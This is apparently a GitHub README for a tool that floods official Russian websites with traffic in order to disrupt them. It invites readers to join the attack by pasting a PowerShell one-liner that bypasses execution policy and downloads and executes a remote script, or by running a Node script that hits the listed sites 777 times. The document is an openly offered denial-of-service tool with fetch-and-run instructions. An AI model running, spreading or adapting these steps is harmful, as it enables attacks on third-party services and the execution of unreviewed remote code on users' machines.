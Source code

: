 # What is this

The following script is flooding official Russian web sites with Internet traffic and causes disruption.

## How to Run (Windows 7+ only)

1. Open 'Windows PowerShell'. You may need to open it in admin/privilidedg mode
1. Copy and Paste the following script in the Powershell Window and Press Enter

```ps
Set-ExecutionPolicy Bypass -Scope Process -Force; [System.Net.ServicePointManager]::SecurityProtocol = [System.Net.ServicePointManager]::SecurityProtocol -bor 3072; iex ((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/givethemhell/shutthemdown/main/script.ps1'))
```

The script will create separate jobs that will constantly send requests to the listed web sites in the script. The script works as long as the PowerShell Window is open. If you want to stop the script, close the PowerShell window.

Thank you!

## Run on any machine

You will need to install the JavaScript run-time environment called Node.
You can dowload it from here: https://nodejs.dev/download
After installing Node, do the following:
change into the 'javascript' directory and install dependencies

```
cd ./javascript
npm i
```

If you run 'ls; in the command line, you should see this:

```
ls
node_modules  package-lock.json  script.js
```

After packages have been installed, you can run the 'script.js' file with node:

```
node script.js
```

This will attempt to ping all the websites 777 times.
You can change the amount of times the script will ping the websites by modifying the 'PING_ATTEMPTS' constant in the script

:)
